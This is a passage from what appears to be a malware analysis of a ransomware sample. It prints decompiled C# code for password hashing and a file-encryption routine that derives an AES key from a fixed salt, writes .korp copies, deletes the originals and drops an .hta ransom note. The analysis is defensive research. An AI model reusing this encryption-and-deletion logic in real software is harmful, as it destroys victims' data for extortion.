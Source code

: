```c#
			using (SHA512CryptoServiceProvider sha512CryptoServiceProvider = new SHA512CryptoServiceProvider())
			{
				byte[] bytes = Encoding.UTF8.GetBytes(password);
				result = Convert.ToBase64String(sha512CryptoServiceProvider.ComputeHash(bytes));
			}
			return result;
		}

		// Token: 0x0600001C RID: 28 RVA: 0x00002834 File Offset: 0x00000A34
		public string GetHashCode(string password, string salt)
		{
			string password2 = password + salt;
			return this.Hasher(password2);
		}

		// Token: 0x0600001D RID: 29 RVA: 0x00002163 File Offset: 0x00000363
		public bool CheckPassword(string password, string salt, string hashedpass)
		{
			return this.GetHashCode(password, salt) == hashedpass;
		}
	}
```

Also we have the `CoreEncrypter`. The method `EncryptFile` is also mostly identical, `AES` is setup, the file is read, then encrypted and then written to a pendant with the extension `.korp`. Afterwards the original file is deleted. This happens to files with less than `1000000L` bytes. Larger files are handled differently: For larger files the first byte is xored with `255` and then the file is renamed.

As mentioned, the code is more or less identical from what we saw in the articles, except, the salt used is differently.

```c#
public void EncryptFile(string file)
{
  byte[] array = new byte[65535];
  byte[] salt = new byte[]
  {
    0,
    1,
    1,
    0,
    1,
    1,
    0,
    0
  };
  Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(this.password, salt, 4953);
  RijndaelManaged rijndaelManaged = new RijndaelManaged();
  rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes(rijndaelManaged.KeySize / 8);
  rijndaelManaged.Mode = CipherMode.CBC;
  rijndaelManaged.Padding = PaddingMode.ISO10126;
  rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes(rijndaelManaged.BlockSize / 8);
  FileStream fileStream = null;
  try
  {
    if (!File.Exists(Directory.GetDirectoryRoot(file) + "\\" + this.alertName + ".hta"))
    {
      File.WriteAllText(Path.GetDirectoryName(file) + "\\" + this.alertName + ".hta", this.alert);
    }
    File.WriteAllText(Path.GetDirectoryName(file) + "\\" + this.alertName + ".hta", this.alert);
  }
  catch (Exception ex)
```